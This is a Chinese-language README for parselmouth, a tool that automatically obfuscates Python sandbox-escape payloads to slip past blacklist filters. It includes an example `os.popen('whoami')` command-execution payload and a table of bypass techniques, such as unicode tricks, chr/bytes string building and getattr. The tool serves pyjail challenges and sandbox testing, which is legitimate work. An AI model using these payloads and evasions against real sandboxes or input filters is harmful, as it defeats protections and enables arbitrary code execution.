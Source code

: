 # parselmouth
一个自动化的 Python 沙箱逃逸 payload bypass 框架

<img alt="image" src="https://github.com/Macr0phag3/parselmouth/assets/20874963/e4f2765d-ba39-49ba-bcf7-02ab3e83a042">

## 快速入门
- python 版本最好是 >= 3.10
- 安装依赖: `pip install -r requirements`

### 通过 CLI 使用
- 获取帮助信息：`python parselmouth.py -h`
- 指定 payload 与 rule: `python parselmouth.py  --payload "__import__('os').popen('whoami').read()" --rule "__" "." "'" '"' "read" "chr"`
- 可以通过 `--specify-bypass` 指定 bypass function 的黑白名单；例如如果不希望 int 通过 unicode 字符的规范化进行 bypass，可以指定参数: `--specify-bypass '{"black": {"Bypass_Int": ["by_unicode"]}}'`
- 通过指定参数 `-v` 可以增加输出的信息；通过 `-vv` 可以输出 debug 信息，但通常是不需要的
- 在定制化 bypass 函数之后，如果想做测试，可以将测试的 payload 和 rule 放在 `run_test.py` 里面，然后通过 `python parselmouth.py --run-test` 进行测试（直接运行 `run_test.py` 也行）

### 通过 import 使用
```python
import parselmouth as p9h


p9h.BLACK_CHAR = [".", "'", '"', "chr", "dict"]
runner = p9h.P9H("__import__('os').popen('whoami').read()", specify_bypass_map={"black": {"Bypass_Name": ["by_unicode"]}}, versbose=0)
result = runner.visit()
status, c_result = p9h.color_check(result)
print(status, c_result, result)
```

`p9h.P9H` 关键参数解释：
- `source_code`: 需要 bypass 的 payload
- `specify_bypass_map`: 指定 bypass function 的黑白名单；例如如果不希望变量名通过 unicode 字符的规范化进行 bypass，可以传参 `{"black": {"Bypass_Name": ["by_unicode"]}}`
- `versbose`: 输出的详细程度（`0` ~ `3`）
- `depth`: 通常情况下不需要使用这个参数；打印信息时所需要的缩进数量
- `cannot_bypass`: 通常情况下不需要使用这个参数；用于指定无法 bypass 的情况，值示例 `["chr(97)"]`

### 定制化 bypass 逻辑
**在定制化之前，最好先阅读下[这篇解释原理的文章](https://www.tr0y.wang/2024/03/04/parselmouth/)以及 `parselmouth.py`、`bypass_tools.py` 的主要代码**

- 如果要新增一个 ast 类型的识别与处理，需要在 `parselmouth.py` 中的 `P9H` 新增一个 `visit_` 方法
- 如果是对已有的 ast 类型，需要新增不同的处理函数，则需要在 `bypass_tools.py` 中找到对应的 bypass 类型，并新增一个 `by_` 开头的方法。同一个类下的 bypass 函数，使用顺序取决于对应类中定义的顺序，先被定义的函数会优先尝试进行 bypass

如果在使用的过程中发现有比较好用的 bypass 手法，或者任何问题都可以提交 issue

## 当前 bypass function

目前支持：

|  类   |   方法名  | payload | bypass | 解释说明 |
| ----- | -------- | ------- | ------- | ----- |
| Bypass_Int    | by_trans | `0` | `len(())` | |
| Bypass_Int    | by_bin   | `10` | `0b1010` |将数字转为二进制 |
| Bypass_Int    | by_hex   | `10` | `0xa`    |将数字转为十六进制 |
| Bypass_Int    | by_cal   | `10` | `5*2`    |将数字转为算式 |
| Bypass_Int    | by_unicode   | `10` | `int('𝟣𝟢')`    | int + unicode 绕过|
| ————   | ————   | ———— | ———— | ————|
| Bypass_String    | by_reverse   | `"macr0phag3"` | `"3gahp0rcam"[::-1]`    | 字符串逆序绕过|
| Bypass_String    | by_char   | `"macr0phag3"` |  `(chr(109) + chr(97) + chr(99) + chr(114) + chr(48) + chr(112) + chr(104) + chr(97) + chr(103) + chr(51))`   | char 绕过字符限制|
| Bypass_String    | by_dict   | `"macr0phag3"` | `list(dict(amacr0phag3=()))[0][1:]`  | dict 绕过限制|
| Bypass_String    | by_bytes_1   | `"macr0phag3"` | `str(bytes([109]))[2] + str(bytes([97]))[2] + str(bytes([99]))[2] + str(bytes([114]))[2] + str(bytes([48]))[2] + str(bytes([112]))[2] + str(bytes([104]))[2] + str(bytes([97]))[2] + str(bytes([103]))[2] + str(bytes([51]))[2]`  | bytes 绕过限制|
| Bypass_String    | by_bytes_2   | `"macr0phag3"` | `bytes([109, 97, 99, 114, 48, 112, 104, 97, 103, 51])`  | bytes 绕过限制 2|
| ————   | ————   | ———— | ———— | ————|
| Bypass_Name    | by_unicode   | `__import__` | `_＿import_＿` | unicode 绕过|
| ————   | ————   | ———— | ———— | ————|
| Bypass_Attribute    | by_getattr   | `str.find` | `getattr(str, 'find')` | unicode 绕过|
| ————   | ————   | ———— | ———— | ————|
| Bypass_Keyword    | by_unicode   | `str(object=1)` | `str(ᵒbject=1)` | unicode 绕过|


以及上述所有方法的组合 bypass。


## Others
<img src="https://clean-1252075454.cos.ap-nanjing.myqcloud.com/20200528120800990.png" width="400">

[![Stargazers over time](https://starchart.cc/Macr0phag3/parselmouth.svg)](https://starchart.cc/Macr0phag3/parselmouth)
